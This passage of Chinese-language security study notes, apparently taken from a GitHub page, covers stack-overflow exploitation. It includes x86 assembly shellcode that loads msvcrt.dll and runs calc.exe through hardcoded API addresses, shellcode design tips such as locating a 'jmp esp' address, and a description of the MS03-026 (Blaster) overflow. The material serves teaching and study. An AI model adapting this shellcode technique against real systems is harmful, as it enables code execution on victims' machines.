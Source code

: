 		mov byte ptr [ebp-05h], 'd'
		mov byte ptr [ebp-04h], 'l'
		mov byte ptr [ebp-03h], 'l'
		lea eax, [ebp-0ch]
		push eax    ; 把字符串"msvcrt.dll"的地址压栈
		mov eax, 0x7c801d7b
		call eax    ; 调用LoadLibrary


		xor ebx,ebx
		push ebx
		push 'exe.'
		push 'clac'
		mov eax, esp
		push eax    ; 把'calc.exe'字符串的地址压栈, 作为system函数的参数
		mov eax,0x77bf93c7
		call eax
		mov eax, 0x7c81cafa
		call eax ; 调用ExitProcess
        ```
    * shellcode的设计
        1. 提取机器码(用vs)
        2. 调试
        3. 通用性(获取调用的api地址)
            * api地址随平台变化
            * 搜索`jmp esp`地址

        <img alt="" src="./pic/vul_stackoverflow_shellcode.jpg" width="30%" height="30%">
    * 冲击波漏洞(MS03-26)
        * `CoGetInstanceFromFile(pServerInfo, NULL, 0, CLSCTX_REMOTE_SERVER, STGM_READWRITE, L"C:\\1234561111111111111111111111111.doc", 1, &qi);` 远程和本地均有调用这个接口. 这个调用的文件名参数过长时, 会导致客户端的本地溢出(用`lstrcpyw`拷贝)
        * 在客户端给服务器传递这个参数的时候, 会自动转换为`L"\\servername\c$\1234561111111111111111111111111., doc"`的形式再传递给远程服务器. 在远程服务器的处理中会先取出servername名, 但未做长度检查(给定0x20内存空间). 
